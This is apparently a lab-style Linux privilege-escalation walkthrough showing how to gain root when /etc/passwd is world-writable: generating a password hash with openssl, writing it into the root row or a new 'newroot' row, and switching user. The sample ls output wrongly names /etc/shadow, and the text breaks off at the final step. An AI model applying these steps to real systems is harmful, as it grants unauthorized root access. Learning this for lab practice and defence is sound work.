 Note : that the /etc/passwd file is world-writable

At first check permission of /etc/passwd file using 

     ls -l /etc/passwd

    -rw-r--rw- 1 root passwd 842 Apr  9 17:28 /etc/shadow


#### 🧑Generate a new password hash with a password of your choice:

    openssl passwd newpasswordhere

#### 👀Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

Switch to the root user, using the new password:

    su root

#### 👁️ Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").

          user@debian:~$ nano /etc/passwd
          root:x:0:0:root:/root:/bin/bash
          daemon:x:1:1:daemon:/usr/sbin:/bin/sh
          bin:x:2:2:bin:/bin:/bin/sh
          sys:x:3:3:sys:/dev:/bin/sh
          sync:x:4:65534:sync:/bin:/bin/sync
          games:x:5:60:games:/usr/games:/bin/sh
          man:x:6:12:man:/var/cache/man:/bin/sh
          lp:x:7:7:lp:/var/spool/lpd:/bin/sh
          mail:x:8:8:mail:/var/mail:/bin/sh
          news:x:9:9:news:/var/spool/news:/bin/sh
          uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
          proxy:x:13:13:proxy:/bin:/bin/sh
          www-data:x:33:33:www-data:/var/www:/bin/sh
          backup:x:34:34:backup:/var/backups:/bin/sh
          list:x:38:38:Mailing List Manager:/var/list:/bin/sh
          irc:x:39:39:ircd:/var/run/ircd:/bin/sh
          gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
          nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
          libuuid:x:100:101::/var/lib/libuuid:/bin/sh
          Debian-exim:x:101:103::/var/spool/exim4:/bin/false
          sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
          user:x:1000:1000:user,,,:/home/user:/bin/bash
          statd:x:103:65534::/var/lib/nfs:/bin/false
          mysql:x:104:106:MySQL Server,,,:/var/lib/mysql:/bin/false


Now switch to the newroot user, using the new password:
